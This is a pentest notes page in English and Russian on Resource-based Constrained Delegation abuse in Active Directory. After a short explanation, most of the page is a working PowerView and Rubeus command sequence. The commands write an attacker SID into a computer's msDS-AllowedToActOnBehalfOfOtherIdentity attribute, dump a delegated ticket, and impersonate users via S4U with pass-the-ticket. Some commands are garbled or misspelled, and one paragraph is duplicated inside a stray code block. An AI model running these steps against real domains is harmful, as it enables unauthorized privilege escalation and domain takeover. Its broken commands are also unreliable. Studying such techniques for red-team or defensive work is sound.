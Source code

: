 # Resource-based Constrained

If an account, having the capability to edit the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute of another object (e.g. the `GenericWrite` ACE, see [Abusing ACLs](https://www.thehacker.recipes/ad/movement/dacl/)), is compromised, an attacker can use it populate that attribute, hence configuring that object for RBCD.

```
that attribute, hence configuring that object for RBCD.

Machine accounts can edit their own msDS-AllowedToActOnBehalfOfOtherIdentity attribute, hence allowing RBCD attacks on relayed machine accounts authentications.
For this attack to work, the attacker needs to populate the target attribute with the SID of an account that Kerberos can consider as a service. A service ticket will be asked for it. In short, the account mu
```

For this attack to work, the attacker needs to populate the target attribute with the SID of an account that Kerberos can consider as a service. A service ticket will be asked for it. In short, the account must be either (see [Kerberos tickets](https://www.thehacker.recipes/ad/movement/kerberos/#tickets) for more information about the following):

* a user account having a `ServicePrincipalName` set
* an account with a trailing `$` in the `sAMAccountName` (i.e. a computer accounts)
* any other account and conduct [SPN-less RBCD](https://www.thehacker.recipes/ad/movement/kerberos/delegations/rbcd#rbcd-on-spn-less-users) with [U2U (User-to-User) authentication](https://www.thehacker.recipes/ad/movement/kerberos/#user-to-user-authentication)

The common way to conduct these attacks is to create a computer account. This is usually possible thanks to a domain-level attribute called [`MachineAccountQuota`](https://www.thehacker.recipes/ad/movement/builtins/machineaccountquota) that allows regular users to create up to 10 computer accounts.



### Resource-based Constrained Delegation ACL-based Computer Object Takeover

_**Целевой компьютерный объект, который мы захватываем**_&#x20;

`$TargetComputer = "dc.here.local"`&#x20;

_**Поиск целей с включенной функцией S4U2Self**_&#x20;

`Get-DomainObject -LDAPFilter '(userAccountControl:1.2.840.113556.1.4.803:=16777216)' -Properties samaccountname,useraccountcontrol`&#x20;

_**Получить SID атакующего (УЗ с правами на цель)**_&#x20;

`$AttackerSID = Get-DomainUser userhere -Properties objectsid | Select -Expand objectsid`&#x20;

_**Проверить права GenericWrite на $TargetComputer**_&#x20;

`$ACE = Get-DomainObjectACL $TargetComputer | ?{$_.SecurityIdentifier -match $AttackerSID} $ACE CovertFrom-SID $ACE.SecurityIdentifier`

`$ACE`

`CovertFrom-SID $ACE.SecurityIdentifier`

_**Контролируемая нами УЗ, которой мы хотим предоставить S4U доступ к цели**_

`$S4UIdentity = "domain\target"`

_**Преобразовать идентификатор в идентификатор безопасности**_

`$IdentitySID = ((New-Object -TypeName System.Security.Principal.NTAccount -ArgumentList $S4UIdentity).Translate([System.Security.Principal.SecurityIdentifier])).Value`

_**Подставить идентификатор безопасности в исходный SDDL**_

`$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($IdentitySID))"`

_**Получить двоичные байты для SDDL**_

`$SDBytes = New-Object byte[] ($SD.BinaryLength) $SD.GetBinaryForm($SDBytes, 0)`

_**Установить новый дескриптор безопасности для 'msds-lowedtoactonbehalfofotheridentity'**_

`Get-DomainComputer $TargetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose`

_**Проверить правильность добавления ACE**_

`$RawBytes = Get-DomainComputer $TargetComputer -Properties 'msds-allowedtoactonbehalfofotheridentity' | select -expand msds-allowedtoactonbehalfofotheridentity`

`$Descriptor = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $RawBytes, 0`

`$Descriptor.DiscretionaryAcl`

`ConvertFrom-SID $Descriptor.DiscretionaryAcl.SecurityIdentifier`

_**На цели где включён S4U2Self**_

```powershell
$out = (cmd /c C:\Users\Public\Rubeus.exe tgtdeleg /nowrap) | Out-String

$ticket = (print $out | select -last 2 | select -first 1).trim()

$ticket | Out-File -FilePath C:\Users\Public\ticket.txt

```

```powershell
./Rubeus.exe tgtdeleg /nowrap
```

```powershell
./Rubeus.exe s4u /user:user /impersonateuser:user /ticket:$ticket /msdsspn:"cifs/domain.here.local" /altservice:krbtgt,cifs,host,http,winrm,RPCSS,wsman /ptt
```
